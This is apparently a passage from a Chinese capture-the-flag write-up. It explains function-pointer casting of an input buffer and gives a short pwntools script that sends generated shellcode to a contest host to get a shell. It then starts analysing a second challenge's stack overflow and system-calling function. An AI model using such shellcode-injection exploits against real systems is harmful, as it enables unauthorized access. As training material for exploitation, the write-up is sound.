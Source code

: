 ### 资料：函数指针
+ `void(*)(void)`是一个函数指针类型，表示指向没有参数且没有返回值的函数
+ 而`buf`是一个`void *`类型的指针，用于表示内存地址
+ `(void(*)(void))buf`将`buf`转换为`void(*)(void)`类型的指针

> 此时`(void(*)(void))buf`将内存中的`buf`视作一个函数  
`((void(*)(void))buf)()`则将这一函数调用
>

总而言之，程序将`read`函数读取的数据存储到`buf`当中，  
指令`((void(*)(void))buf)()`将`buf`当中的数据作为函数调用了

> `pwntools`库可以直接生成shellcode  
可以用`pwntools`生成shellcode送进内存里面被执行从而getshell
>

> 开始敲代码：
>

```python
from pwn import *
link=remote('challenge.basectf.fun',端口)
context(log_level='debug',arch='amd64',os='linux')
shellcode=asm(shellcraft.sh())
link.sendline(shellcode)
link.interactive()
```

> ![](C:\Users\garhi\AppData\Roaming\Typora\typora-user-images\image-20240824212645520.png)![](/images/9032cde0f0b721d1ce83d5a60d2b5cfa.png)  
成功getshell，输入命令成功获得flag！
>

## 5、我把她丢了
> 首先还是checksec：  
![](C:\Users\garhi\AppData\Roaming\Typora\typora-user-images\image-20240824214637753.png)![](/images/b96a859458dc163a339a72ca5c38e982.png)  
从截图可以得出信息：64位程序、可以栈溢出、没有位置无关可执行文件`PIE`
>

> 接着进行信息采集工作（？）  
用IDA分析一下靶机的程序：  
![](C:\Users\garhi\AppData\Roaming\Typora\typora-user-images\image-20240824220109215.png)![](/images/017b7bc686e482b1ed5bb03a3459c353.png)  
先从`main`函数入手，可以看到`main`函数当中只有一个可疑的`vuln`函数
>

> 接着再在左边的函数列表里面找到这个可疑的`vuln`函数，查看源代码：
>
> ![](/images/cbf4167c3208f5d62d644aea6e543a98.png)  
发现`vuln`函数中有`read`危险函数，可以利用栈溢出漏洞修改返回地址
>

> 接着又发现左边函数列表里面有个`shell`函数里面调用了`system`函数：  
![](C:\Users\garhi\AppData\Roaming\Typora\typora-user-images\image-20240824222819369.png)![](/images/f1ad6c9936408057e1925f812ca89d8f.png)
>
